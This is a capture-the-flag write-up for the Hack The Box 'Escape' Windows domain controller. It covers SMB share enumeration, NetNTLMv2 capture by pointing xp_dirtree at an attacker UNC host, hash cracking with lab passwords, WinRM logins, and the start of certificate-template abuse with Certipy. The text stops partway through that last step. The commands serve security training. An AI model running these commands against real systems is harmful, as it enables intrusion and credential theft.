# HTB - Escapes

**IP Address:** `10.129.12.41`  
**OS:** Windows Server 2019 (10.0.17763)  
**Difficulty:** Medium  
**Tags:** #ActiveDirectory, #MSSQL, #Responder, #NetNTLM, #WinRM, #ADCS, #Certipy, #CertificateServices, #UserAuthentication, #sequel

---
## Synopsis

Escape is a Windows **Domain Controller** with **MSSQL**, **SMB**, and **Active Directory Certificate Services (ADCS)**. The exploitation path starts from a guest-readable **SMB** share and SQL credentials in a PDF, then uses **NetNTLM capture** via **`xp_dirtree`** to recover the **SQL service account**. A SQL error log on disk leaks credentials for a domain user. **Privilege escalation to Administrator** abuses a misconfigured certificate template (**`UserAuthentication`**) with **Certipy**, followed by **pass-the-hash** over **WinRM**.

---
## Skills Required

- Basic **nmap**, **SMB**, and **MSSQL** client usage  
- **Responder** / NetNTLMv2 cracking (**hashcat** / **John**)  
- **Evil-WinRM** and Windows filesystem enumeration  
- Introductory **AD CS** abuse (**Certipy**, template **`UserAuthentication`**)  
- Kerberos clock sync when using **PKINIT** / **`certipy-ad auth`**

## Skills Learned

- Coercing **SQL Server** to authenticate to a controlled UNC (**`xp_dirtree`**)  
- Cracking **NetNTLMv2** and pivoting to **WinRM**  
- Finding credentials in **SQL error logs** (`ERRORLOG.BAK`)  
- Requesting a certificate as **another principal** when **Enrollee supplies subject** is enabled on the right template  
- **Pass-the-cert** / **NT hash** reuse with **Evil-WinRM**

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.12.41
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.12.41 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,49667,49689,49690,49711,49721 10.129.12.41 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s)   | Service        | Notes |
|-----------|----------------|--------|
| 53        | DNS            | Domain Controller |
| 88        | Kerberos       | AD authentication |
| 389 / 636 | LDAP / LDAPS   | `sequel.htb` |
| 445       | SMB            | Signing enabled |
| 1433      | MSSQL          | SQL Server 2019 |
| 5985      | WinRM          | Remote management |
| 9389      | AD Web Services | ADWS |

No HTTP application on **80/443**. Add the hostnames to `/etc/hosts`:

```
10.129.12.41  sequel.htb dc.sequel.htb
```

---
## 2. Service Enumeration

### 2.1 SMB Enumeration

Enumerate SMB and guest-accessible shares:

```bash
crackmapexec smb 10.129.12.41
```



```bash
smbclient -L //10.129.12.41 -N
```



```bash
smbmap -u 'guest' -p '' -H 10.129.12.41
```



The **`Public`** share is readable. Download **`SQL Server Procedures.pdf`**:

```bash
smbclient //10.129.12.41/Public -N
# smb: \> get "SQL Server Procedures.pdf"
```



Extract text from the PDF:

```bash
pdftotext "SQL Server Procedures.pdf" -
```



The **bonus** section of the PDF provides SQL authentication credentials: **`PublicUser`** / **`GuestUserCantWrite1`**.

---
## 3. Foothold

### 3.1 MSSQL Access as `PublicUser`

Connect using **SQL Server authentication** (not Windows auth):

```bash
impacket-mssqlclient 'PublicUser:GuestUserCantWrite1@10.129.12.41'
```



Confirm limited privileges (`fn_my_permissions` — not sysadmin):


### 3.2 NetNTLMv2 Capture with `xp_dirtree`

The **`xp_dirtree`** extended procedure forces the SQL service account to authenticate to a **UNC path** on the attacker. Start **Responder** on **`tun0`**, then run:

```sql
EXEC master..xp_dirtree '\\<TUN0_IP>\test', 1, 1;
```





### 3.3 Cracking and Validation

Save the full Responder hash line (e.g. to `hash_sql_svc`) and crack offline:

```bash
hashcat -m 5600 hash_sql_svc /usr/share/wordlists/rockyou.txt
john --format=netntlmv2 hash_sql_svc --wordlist=/usr/share/wordlists/rockyou.txt
```




**Recovered:** `sequel\sql_svc` / `REGGIE1234ronnie`

Validate credentials and open **WinRM** (omit **`-r`** when using NTLM + password):

```bash
crackmapexec smb 10.129.12.41 -u sql_svc -p 'REGGIE1234ronnie'
crackmapexec winrm 10.129.12.41 -u sql_svc -p 'REGGIE1234ronnie'
evil-winrm -i 10.129.12.41 -u sql_svc -p 'REGGIE1234ronnie'
```




---
### 3.4 ERRORLOG credential leak and user flag

On the **DC** as `sql_svc`, read the SQL install log backup for failed login entries that may expose another domain account:

```powershell
type C:\SQLServer\Logs\ERRORLOG.BAK
```



Failed login entries leak **`ryan.cooper`** / **`NuclearMosquito3`**.

```bash
evil-winrm -i 10.129.12.41 -u 'ryan.cooper' -p 'NuclearMosquito3'
```

```powershell
type C:\Users\Ryan.Cooper\Desktop\user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 AD CS: Certipy find, request, and auth

Synchronize the attacker clock with the domain (**`sudo timedatectl set-ntp true`**) before **`certipy-ad auth`** to avoid **`KRB_AP_ERR_SKEW`**.

Enumerate **AD CS** and request a certificate **as Administrator** using template **`UserAuthentication`** (the default **`User`** template does not allow forging another principal’s UPN in this scenario):

```bash
certipy-ad find -u 'ryan.cooper@sequel.htb' -p 'NuclearMosquito3' \
  -dc-ip 10.129.12.41 -dns-tcp -stdout
```

